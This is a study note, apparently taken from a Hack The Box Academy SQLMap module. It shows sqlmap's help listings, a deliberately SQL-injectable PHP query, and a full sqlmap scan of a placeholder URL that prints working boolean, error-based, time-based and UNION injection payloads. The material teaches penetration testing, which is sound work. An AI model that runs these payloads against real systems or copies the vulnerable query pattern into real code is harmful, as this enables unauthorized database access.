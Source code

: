```yaml
---
sticker: lucide//database-backup
---
```

Upon starting using SQLMap, the first stop for new users is usually the program's help message. To help new users, there are two levels of help message listing:

- `Basic Listing` shows only the basic options and switches, sufficient in most cases (switch `-h`):


```shell-session
smoothment@htb[/htb]$ sqlmap -h
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs
...SNIP...
```

- `Advanced Listing` shows all options and switches (switch `-hh`):


```shell-session
smoothment@htb[/htb]$ sqlmap -hh
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -d DIRECT           Connection string for direct database connection
    -l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
    -m BULKFILE         Scan multiple targets given in a textual file
    -r REQUESTFILE      Load HTTP request from a file
    -g GOOGLEDORK       Process Google dork results as target URLs
    -c CONFIGFILE       Load options from a configuration INI file

  Request:
    These options can be used to specify how to connect to the target URL

    -A AGENT, --user..  HTTP User-Agent header value
    -H HEADER, --hea..  Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
    --method=METHOD     Force usage of given HTTP method (e.g. PUT)
    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --param-del=PARA..  Character used for splitting parameter values (e.g. &)
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --cookie-del=COO..  Character used for splitting cookie values (e.g. ;)
...SNIP...
```

For more details, users are advised to consult the project's [wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage), as it represents the official manual for SQLMap's usage.

---

## Basic Scenario

In a simple scenario, a penetration tester accesses the web page that accepts user input via a `GET` parameter (e.g., `id`). They then want to test if the web page is affected by the SQL injection vulnerability. If so, they would want to exploit it, retrieve as much information as possible from the back-end database, or even try to access the underlying file system and execute OS commands. An example SQLi vulnerable PHP code for this scenario would look as follows:


```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

As error reporting is enabled for the vulnerable SQL query, there will be a database error returned as part of the web-server response in case of any SQL query execution problems. Such cases ease the process of SQLi detection, especially in case of manual parameter value tampering, as the resulting errors are easily recognized:

   

![](https://academy.hackthebox.com/storage/modules/58/rOrm8tC.png)

To run SQLMap against this example, located at the example URL `http://www.example.com/vuln.php?id=1`, would look like the following:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.